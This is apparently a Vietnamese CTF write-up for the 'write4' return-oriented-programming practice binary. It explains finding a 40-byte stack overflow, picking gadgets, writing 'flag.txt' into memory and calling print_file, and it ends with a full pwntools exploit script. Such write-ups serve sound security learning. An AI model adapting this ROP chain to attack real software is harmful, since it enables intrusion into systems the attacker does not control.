**1. Tìm lỗi**

Dùng lệnh file để kiểm tra 



Là file elf 64 bit -> mở bằng ida64 ta có như sau:



Hàm pwnme:



Ta thấy khoảng cách từ biến đến ret là : 0x20 + 0x8 = 40. Chương trình cho phép nhập 0x200 = 512 byte nên có thể nhập tràn đến ret

Hàm usefulFunction:



Hàm printf_file: 0x0000000000400693



Ta thấy ở hàm print_file thì truyền tên file vào thanh ghi rdi thì sẽ thực hiện in nội dung file đó nên có ý tưởng là truyền flag.txt vào rdi



Địa chỉ câu lệnh pop rdi là:

Hàm usefulGadgets:



**2. Ý tưởng**

Ta thấy ở hàm usefulGadgets có câu lệnh mov [r14], r15 nên lợi dụng điều này để ghi flag.txt vào thanh ghi 14 rồi truyền sang rdi và thực hiện gọi hàm printf_flag



Ta thấy địa chỉ 0x0000000000400690 chứa câu lệnh pop r14 và pop r15 nên ý tưởng trên hoàn toàn thực hiện được

Thứ tự payload:
 - 40 byte để tràn đến ret
 - Địa chỉ câu lệnh pop r14 và r15
 - Truyền giá trị tương ứng vào
 - Địa chỉ lệnh mov [r14], r15
 - Địa chỉ lệnh pop rdi
 - Đưa giá trị r14 đã gán ở trên vào
 - Địa chỉ lệnh call print_file
 
**3. Viết script**

Chúng ta cần phải kiếm địa chỉ còn trống để ghi chuỗi vào:



Ta thấy địa chỉ 0x601030 còn trống nên có thể ghi vào



Địa chỉ câu lệnh gọi hàm print_file là: 0x0000000000400620

Ta có script như sau:

```
from pwn import *
r = process("./write4")

def asscii2hex(value):
    result = ""
    for i in value:
        result += hex(ord(i))[2:]
    return result

def toAddr(value):
    length = len(value)
    result = "0x"
    for i in range(length-1, 0, -2):
        result += value[i-1] + value[i]
    return result

def process(value):
    return int(toAddr(asscii2hex(value)), 16)


pop = 0x0000000000400690
mov = 0x400628
r14 = 0x601030
r15 = process("flag.txt")
pop_rdi = 0x0000000000400693
printf_file = 0x0000000000400620

payload = b'a'*40
payload += p64(pop)
payload += p64(r14) + p64(r15)
payload += p64(mov)
payload += p64(pop_rdi)
payload += p64(r14)
payload += p64(printf_file)
print(payload)
r.sendafter(b'> ', payload)

r.interactive()
```

**4. Lấy flag**


